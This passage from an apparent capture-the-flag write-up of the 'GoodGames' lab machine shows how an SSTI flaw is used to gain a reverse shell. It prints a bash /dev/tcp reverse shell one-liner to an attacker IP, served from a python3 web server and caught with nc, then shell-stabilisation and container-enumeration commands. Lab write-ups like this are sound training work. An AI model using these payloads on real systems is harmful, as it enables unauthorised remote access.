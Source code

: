 It is time to try to get a **Reverse Shell**, exploiting the **SSTI** vulnerability, I just have to create an `index.html` file, with `bash` code to send a shell to my attacker machine. Then I will set up a local server with `python3` and listen in with `nc`. I perform the injection by updating the username and that's it, I have access to the victim machine. I do a console treatment for better mobility, but I notice with `hostname` that the system's DNS name corresponds to that of a container and if I look at the network interfaces, the IP value corresponds to that of a container.

> **`hostname`** is used to display the system's DNS name, and to display or set its hostname or NIS domain name. -I Parameter Display  all network addresses of the host.

```bash
nvim index.html
python3 -m http.server 80
nc -nlvp 443
```

> **index.html**

```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1'
```

```bash
script /dev/null -c bash                # [Ctrl+z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

whoami
hostname
hostname -I
ifconfig
ip a
```

<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_43.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_44.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/goodgames_writeup/GoodGames_45.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I look at the IP routing tables, I find in the gateway the value of an IP that must be the real victim machine, and I have connectivity to this IP. But if I enumerate the container a bit I don't find much information on how to access it.
